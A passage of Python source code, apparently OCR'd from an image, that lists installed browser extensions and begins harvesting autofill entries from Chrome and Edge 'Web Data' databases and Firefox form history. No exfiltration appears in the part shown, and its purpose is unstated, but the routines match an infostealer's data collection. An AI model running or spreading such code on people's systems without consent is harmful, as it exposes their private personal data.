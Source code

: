                         if os.path.exists(manifest_path):
                            try:
                                with open(manifest_path, "r", encoding="utf-8") as f:
                                    manifest = json.load(f)
                                data.append({
                                    "name": manifest.get("name", "Unknown"),
                                    "version": manifest.get("version", "Unknown"),
                                    "description": manifest.get("description", "No description")
                                })
                            except Exception as e:
                                data.append({"error": str(e)})
        else:
            data.append({"error": f"Extensions folder not found for {browser}."})
        extensions_data[browser] = data

    # Firefox: read extensions.json from the profile folder
    firefox_data = []
    firefox_profiles_path = os.path.join(os.environ.get("APPDATA", ""), "Mozilla", "Firefox", "Profiles")
    if os.path.exists(firefox_profiles_path):
        profiles = [d for d in os.listdir(firefox_profiles_path) if os.path.isdir(os.path.join(firefox_profiles_path, d))]
        if profiles:
            profile_path = os.path.join(firefox_profiles_path, profiles[0])
            extensions_json_path = os.path.join(profile_path, "extensions.json")
            if os.path.exists(extensions_json_path):
                try:
                    with open(extensions_json_path, "r", encoding="utf-8") as f:
                        ext_json = json.load(f)
                    addons = ext_json.get("addons", [])
                    for addon in addons[:5]:
                        firefox_data.append({
                            "name": addon.get("defaultLocale", {}).get("name", "Unknown"),
                            "version": addon.get("version", "Unknown"),
                            "description": addon.get("defaultLocale", {}).get("description", "No description")
                        })
                except Exception as e:
                    firefox_data.append({"error": str(e)})
            else:
                firefox_data.append({"error": "extensions.json not found in Firefox profile."})
        else:
            firefox_data.append({"error": "No Firefox profiles found."})
    else:
        firefox_data.append({"error": "Firefox profiles directory not found."})
    extensions_data["Firefox"] = firefox_data
    return extensions_data

def gather_autofill_data():
    """
    Gather autofill data from browsers.
    For Chrome and Edge, it looks for the 'Web Data' file and queries the 'autofill' table.
    For Firefox, it attempts to read the 'formhistory.sqlite' file and queries 'moz_formhistory'.
    """
    autofill_data = {}
    for browser in ["Chrome", "Edge"]:
        data = []
        web_data_path = find_chromium_file(browser, "Web Data")
        if web_data_path:
            try:
                conn = sqlite3.connect(web_data_path)
                cursor = conn.cursor()
                cursor.execute("SELECT name FROM sqlite_master WHERE type='table' AND name='autofill';")
                if cursor.fetchone():